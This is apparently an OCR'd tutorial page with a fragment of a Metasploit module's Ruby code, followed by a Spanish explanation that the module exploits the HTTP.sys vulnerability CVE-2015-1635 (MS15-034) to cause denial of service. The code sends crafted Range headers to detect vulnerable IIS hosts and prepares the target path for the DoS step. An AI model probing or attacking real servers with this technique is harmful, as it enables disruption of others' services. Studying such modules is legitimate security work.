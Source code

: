 ```ruby
        attr_value = tag[attribute]

        next unless attr_value && !attr_value.empty?

        uri = site_uri.merge(URI::DEFAULT_PARSER.escape(attr_value.strip))

        next unless uri.host == vhost || uri.host == rhost

        uris << uri.path if uri.path =~ /\.[a-z]{2,}$/i # Only keep path with a file
      end
    end

    uris.uniq
  end

  def check_host(ip)
    potential_static_files_uris.each do |potential_uri|
      uri = normalize_uri(potential_uri)

      res = send_request_raw(
        'uri' => uri,
        'method' => 'GET',
        'headers' => {
          'Range' => "bytes=0-#{upper_range}"
        }
      )

      vmessage = "#{peer} - Checking #{uri}"

      if res && res.body.include?('Requested Range Not Satisfiable')
        vprint_status("#{vmessage} [#{res.code}] - Vulnerable")

        target_uri.path = uri # Needed for the DoS attack

        return Exploit::CheckCode::Vulnerable
      elsif res && res.body.include?('The request has an invalid header name')
        vprint_status("#{vmessage} [#{res.code}] - Safe")

        return Exploit::CheckCode::Safe
      else
        vprint_status("#{vmessage} - Unknown")
      end
    end

    Exploit::CheckCode::Unknown
  end
end

```

#### **Funcionamiento del código _ulonglongadd_**
Este módulo de *Metasploit* básicamente explota la vulnerabilidad de HTTP.sys (código **CVE-2015-1635** o conocido con **MS15-034** de _Microsoft_) para lograr causar una Denegación de servicios (DoS) en los servidores con versiones, como por ejemplo, *Windows 2008 R2 Server*.
